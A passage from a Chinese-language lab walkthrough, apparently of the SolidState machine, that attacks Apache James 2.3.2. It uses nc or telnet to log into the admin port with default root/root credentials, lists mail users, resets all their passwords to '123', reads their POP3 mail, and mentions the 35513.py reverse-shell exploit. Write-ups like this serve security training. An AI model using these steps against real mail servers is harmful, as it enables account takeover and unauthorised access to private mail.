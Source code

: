 `35513.py` 的远程代码执行也可以看看

一看利用成功要满足两个基本条件：

（1）James Remote Administration Tool的用户名密码是默认的root/root

（2）需要有用户登录系统才会反弹shell

# 打点探测

## 4555端口

1、尝试连接

```bash
└─# nc 192.168.0.104 4555
```

或者

```bash
└─# telnet 192.168.0.104 4555 
```

用默认账号密码 root:root 连接，显示成功

2、探测敏感信息，找到 5 个邮箱用户名

```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

3、把账号的密码都改一下，用**setpassword**命令，密码全都改成 `123` ，比如

```
setpassword james 123
```

4、然后依次用每个账户登录pop3，查看邮件内容，比如用`james/123`登录，并查看邮件列表

```
telnet 192.168.0.104 110                                                            
USER james
PASS 123
LIST
```

到`john`的时候，发现这个账户的邮箱中有一封邮件，用**RETR 1**命令查看邮件内容

```bash
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
```